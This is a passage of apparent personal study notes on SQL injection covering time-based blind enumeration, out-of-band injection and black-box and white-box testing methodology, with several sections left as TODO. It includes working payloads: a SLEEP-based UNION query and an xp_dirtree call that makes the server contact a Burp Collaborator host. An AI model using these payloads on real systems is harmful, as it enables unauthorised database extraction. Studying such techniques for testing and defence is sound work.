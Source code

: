 2. Enumeration:  
- The same process as Boolean-based SQL injection is used for enumerating database names, tables, and columns, but with the `SLEEP(x)` method to validate queries:  
Example: Finding the database name:  
`admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'u%';--`  
- A delay confirms the query was successful, and the database name begins with "u."

3. Iterative Process:  
- Use the `SLEEP(x)` function alongside `LIKE`, cycling through possible characters (e.g., `u%`, `us%`, `usr%`) to infer database names, tables, and columns step-by-step.
___
## Out-of-Band SQL injection
TODO finish portswigger lesson
Out-of-band (OOB) SQL Injection relies on using two separate communication channels: one to send the injection payload and another to receive the results. It requires specific server features or application logic to facilitate external network calls (e.g., HTTP or DNS requests).  

Example Payload:  
`'; exec master ..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`  
**Process**:  
1. Injection Payload:  
The attacker sends a crafted SQL injection payload via a vulnerable web request.  
2. Server Processing:  
The web application forwards the payload to the database, executing it as part of a query.  
3. External Call:  
The payload triggers an HTTP or DNS request from the server back to the attacker’s controlled system, carrying extracted database data.
___
## How to find SQLi vulnerabilities?
Example of methodologies to build up with experience.  
**Black box testing**  
• Map the application (exploratory testing, let burp proxy listening silently to intercept the communication)  
• Fuzz the application:  
  - Submit SQL-specific characters such as ' or ", and look for errors or other anomalies  
  - Submit Boolean conditions such as OR 1=1 and OR 1=2, and look for differences in the application's responses  
  - Submit payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond  
  - Submit OAST payloads designed to trigger an out-of-band network interaction when executed within an SQL query, and monitor for any resulting interactions  

**White box testing**  
• Enable web server logging (when fuzzing the app generates error on invalid characters that you put in app)  
• Enable database logging (to observe how your injection was logged at the backend)  
• Map the application  
  - Visible functionality in the application  
  - Regex search on all instances in the code that talk to the database  
• Code review!  
  - Follow the code path for all input vectors  
• Test any potential SQLi vulnerabilities  
___
## Second-order SQL injection
TODO skonczyc
___
## How to prevent SQLi?
TODO
___